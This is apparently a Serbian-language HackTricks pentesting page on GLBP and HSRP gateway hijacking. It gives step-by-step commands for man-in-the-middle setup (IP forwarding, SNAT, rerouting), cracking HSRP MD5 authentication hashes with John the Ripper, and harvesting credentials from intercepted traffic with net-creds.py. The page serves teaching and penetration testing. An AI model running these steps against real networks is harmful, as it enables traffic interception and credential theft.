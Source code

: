 # GLBP & HSRP Attacks

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Pregled FHRP preuzimanja

### Uvid u FHRP

FHRP je dizajniran da obezbedi otpornost mreže spajanjem više rutera u jedinicu, čime se poboljšava raspodela opterećenja i tolerancija na greške. Cisco Systems je u ovoj grupi predstavio prominentne protokole kao što su GLBP i HSRP.

### Pregled GLBP protokola

GLBP, koji je kreirao Cisco, funkcioniše na TCP/IP sloju, koristeći UDP na portu 3222 za komunikaciju. Ruteri u GLBP grupi razmenjuju "hello" pakete na intervalima od 3 sekunde. Ako ruter ne pošalje ove pakete u roku od 10 sekundi, pretpostavlja se da je van mreže. Međutim, ovi tajmeri nisu fiksni i mogu se menjati.

### GLBP operacije i raspodela opterećenja

GLBP se ističe omogućavanjem raspodele opterećenja između rutera korišćenjem jedne virtuelne IP adrese u kombinaciji sa više virtuelnih MAC adresa. U GLBP grupi, svaki ruter učestvuje u prosleđivanju paketa. Za razliku od HSRP/VRRP, GLBP pruža pravo balansiranje opterećenja kroz nekoliko mehanizama:

* **Balansiranje opterećenja zavisno od hosta:** Održava konzistentno dodeljivanje AVF MAC adrese hostu, što je važno za stabilne NAT konfiguracije.
* **Balansiranje opterećenja rotirajući:** Podrazumevani pristup, rotira dodeljivanje AVF MAC adrese među zahtevajućim hostovima.
* **Balansiranje opterećenja sa težinskim rotiranjem:** Raspodeljuje opterećenje na osnovu unapred definisanih "težinskih" metrika.

### Ključni komponenti i terminologija u GLBP-u

* **AVG (Active Virtual Gateway):** Glavni ruter, odgovoran za dodeljivanje MAC adresa ruterima u grupi.
* **AVF (Active Virtual Forwarder):** Ruter koji je zadužen za upravljanje mrežnim saobraćajem.
* **GLBP prioritet:** Metrika koja određuje AVG, počevši od podrazumevane vrednosti 100 i krećući se u rasponu od 1 do 255.
* **GLBP težina:** Odražava trenutno opterećenje rutera, koje se može ručno podešavati ili putem praćenja objekata.
* **GLBP virtuelna IP adresa:** Služi kao podrazumevani gateway mreže za sve povezane uređaje.

Za interakciju, GLBP koristi rezervisanu multicast adresu 224.0.0.102 i UDP port 3222. Ruteri šalju "hello" pakete na intervalima od 3 sekunde, a smatraju se neoperativnim ako se paket propusti tokom trajanja od 10 sekundi.

### Mekanizam napada na GLBP

Napadač može postati primarni ruter slanjem GLBP paketa sa najvišom vrednošću prioriteta (255). Ovo može dovesti do DoS ili MITM napada, omogućavajući presretanje ili preusmeravanje saobraćaja.

### Izvršavanje napada na GLBP pomoću Lokija

[Loki](https://github.com/raizo62/loki\_on\_kali) može izvršiti napad na GLBP ubacivanjem paketa sa postavljenim prioritetom i težinom na 255. Koraci pre napada uključuju prikupljanje informacija poput virtuelne IP adrese, prisustva autentifikacije i vrednosti prioriteta rutera korišćenjem alata poput Wireshark-a.

Koraci napada:

1. Prebacite se u promiskuitetni režim i omogućite prosleđivanje IP paketa.
2. Identifikujte ciljni ruter i dobijte njegovu IP adresu.
3. Generišite lažni ARP zahtev.
4. Ubacite zlonamerni GLBP paket, predstavljajući se kao AVG.
5. Dodelite sekundarnu IP adresu mrežnom interfejsu napadača, oponašajući GLBP virtuelnu IP adresu.
6. Implementirajte SNAT za potpunu vidljivost saobraćaja.
7. Podesite rutiranje kako biste obezbedili kontinuiran pristup internetu putem originalnog AVG rutera.

Prateći ove korake, napadač se pozicionira kao "čovek u sredini", sposoban da presretne i analizira mrežni saobraćaj, uključujući nešifrovane ili osetljive podatke.

Za demonstraciju, ovde su potrebni delovi komandi:

```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```

### Pasivno objašnjenje HSRP hakovanja sa detaljima komandi

#### Pregled HSRP (Hot Standby Router/Redundancy Protocol) protokola

HSRP je Cisco vlasnički protokol dizajniran za redundanciju mrežnih gateway-a. Omogućava konfiguraciju više fizičkih rutera u jedinicu sa zajedničkom IP adresom. Ova logička jedinica se upravlja od strane primarnog rutera koji je odgovoran za usmeravanje saobraćaja. Za razliku od GLBP-a koji koristi metrike kao što su prioritet i težina za balansiranje opterećenja, HSRP se oslanja na jedan aktivni ruter za upravljanje saobraćajem.

#### Uloge i terminologija u HSRP-u

* **HSRP Aktivni Ruter**: Uređaj koji deluje kao gateway i upravlja protokom saobraćaja.
* **HSRP Rezervni Ruter**: Rezervni ruter koji je spreman da preuzme ulogu aktivnog rutera ukoliko on prestane da funkcioniše.
* **HSRP Grupa**: Skup rutera koji sarađuju kako bi formirali jedan otporan virtuelni ruter.
* **HSRP MAC Adresa**: Virtuelna MAC adresa dodeljena logičkom ruteru u HSRP konfiguraciji.
* **HSRP Virtuelna IP Adresa**: Virtuelna IP adresa HSRP grupe koja deluje kao podrazumevani gateway za povezane uređaje.

#### Verzije HSRP-a

HSRP dolazi u dve verzije, HSRPv1 i HSRPv2, koje se razlikuju uglavnom po kapacitetu grupe, korišćenju multicast IP adresa i strukturi virtuelne MAC adrese. Protokol koristi određene multicast IP adrese za razmenu informacija o uslugama, pri čemu se Hello paketi šalju svake 3 sekunde. Ruter se smatra neaktivnim ako ne primi paket u roku od 10 sekundi.

#### Mekanizam HSRP napada

HSRP napadi uključuju prisvajanje uloge Aktivnog Rutera ubacivanjem maksimalne vrednosti prioriteta. Ovo može dovesti do napada Man-In-The-Middle (MITM). Bitni koraci pre napada uključuju prikupljanje podataka o HSRP konfiguraciji, što se može uraditi korišćenjem Wireshark-a za analizu saobraćaja.

#### Koraci za zaobilaženje HSRP autentifikacije

1. Sačuvajte mrežni saobraćaj koji sadrži HSRP podatke kao .pcap fajl.

```shell
tcpdump -w hsrp_traffic.pcap
```

2. Izdvojite MD5 hešove iz .pcap fajla koristeći hsrp2john.py.

```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```

3. Provalite MD5 hešove koristeći John the Ripper.

```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Izvršavanje HSRP ubacivanja pomoću Lokija**

1. Pokrenite Lokija da biste identifikovali HSRP reklame.
2. Postavite mrežni interfejs u promiskuitetni režim i omogućite prosleđivanje IP paketa.

```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```

3. Koristite Lokija da ciljate određeni ruter, unesite provaljenu HSRP lozinku i izvršite neophodne konfiguracije kako biste se predstavili kao Aktivni Ruter.
4. Nakon što preuzmete ulogu Aktivnog Rutera, konfigurišite mrežni interfejs i IP tabele da biste presreli legitimni saobraćaj.

```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

5. Izmenite rutiranje da biste usmerili saobraćaj preko bivšeg Aktivnog Rutera.

```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```

6. Koristite net-creds.py ili sličan alat da biste uhvatili akreditive iz presretnutog saobraćaja.

```shell
sudo python2 net-creds.py -i eth0
```

Izvršavanje ovih koraka stavlja napadača u poziciju da presretne i manipuliše saobraćajem, slično postupku za GLBP hakovanje. Ovo ističe ranjivost redundansnih protokola poput HSRP-a i potrebu za snažnim sigurnosnim merama.

## Reference

* [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
